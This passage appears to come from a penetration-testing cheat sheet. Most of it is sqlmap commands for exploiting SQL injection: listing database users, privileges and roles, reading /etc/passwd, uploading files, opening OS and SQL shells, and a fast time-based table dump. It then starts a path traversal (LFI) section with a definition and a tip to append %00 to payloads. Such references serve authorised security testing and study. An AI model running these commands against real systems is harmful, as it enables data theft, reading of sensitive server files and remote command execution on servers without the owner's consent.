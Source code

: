 ### List Privileges
```bash
sqlmap -r req --current-user
sqlmap -r req --privileges
sqlmap -r req --roles
```

### File
```bash
# Read file
sqlmap -r req --file-read=/etc/passwd
# Upload file
sqlmap -r req --file-write=/local/file --file-dest=/dest/path
```

### Shell
```bash
# Upload Reverse shell
sqlmap -r req --os-shell
sqlmap -r req --os-cmd 'echo desbarres'
# Sql Shell
sqlmap -r req --sql-shell
```

### Optimize
```
-o                  Turn on all optimization switches
--predict-output    Predict common queries output
--keep-alive        Use persistent HTTP(s) connections
--null-connection   Retrieve page length without actual HTTP response body
--threads=THREADS   Max number of concurrent HTTP(s) requests (default 1)

--time-sec=TIMESEC  Seconds to delay the DBMS response (default 5)
```

### Turbo SQLmap
```bash
sqlmap -u 'https://example.com/?arg=*' --dump -T table_example -D example_db --level=2 --force-ssl --time-sec 1 --predict-output --dbms 'MySQL' --technique T  --flush-session
```

# Path traversal (LFI)
> A path traversal attack aims to access files and directories that are stored outside the web root folder by manipulating variables that reference files.
> It may be possible to access arbitrary files and directories including application source code or configuration and critical system files.

### Pattern
> Try to add `%00` at the end of your payload.
